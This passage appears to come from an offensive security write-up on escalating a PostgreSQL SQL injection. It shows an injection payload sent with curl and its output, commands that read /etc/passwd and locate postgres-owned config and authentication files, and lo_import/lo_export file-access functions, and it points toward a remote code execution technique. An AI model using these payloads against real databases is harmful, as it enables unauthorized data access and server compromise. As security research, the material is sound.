 
Nested SELECT queries are still possible, though!

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 OR (SELECT 1)=1"
[
    {"id":1,"text":"Hello, world!"},
    ...
    {"id":14,"text":"Find your inner peace."},
    {"id":15,"text":"Dance in the rain"}
]
```
<PRE>


Since one can read the DB data without the SQLi, is this bug even worth
reporting?


---[ 1.2 - Abusing server-side lo_ functions

Not all hope is lost, though! Since nested SELECT SQL queries are allowed,
we can try to call some of the built-in PostgreSQL functions and see if
there are any that can help us.

PostgreSQL has several functions that allow reading files from and writing
to the server running the DBMS. These functions[4] are a part of the
PostgreSQL Large Objects functionality, and should be accessible
to the superusers by default:

1. lo_import(path_to_file, lo_id) - read the file into the DB large object
2. lo_export(lo_id, path_to_file) - dump the large object into a file

What files can be read? Since the DBMS is normally running under the
postgres user, we can search for readable files via the following
command:

</PRE>
```console
$ cat /etc/passwd | grep postgres
postgres:x:129:129::/var/lib/postgresql:/bin/bash

$ find / -uid 129 -type f -perm -600 2>/dev/null
...
/var/lib/postgresql/data/postgresql.conf       <---- main service config
/var/lib/postgresql/data/pg_hba.conf           <---- authentication config
/var/lib/postgresql/data/pg_ident.conf         <---- psql username mapping
...
/var/lib/postgresql/13/main/base/1/2654        <---- some data files
/var/lib/postgresql/13/main/base/1/2613
```
<PRE>


There already is an RCE technique, initially discovered by Denis
Andzakovic[5] and sylsTyping[6] in 2021 and 2022, which takes advantage
of the postgresql.conf file.
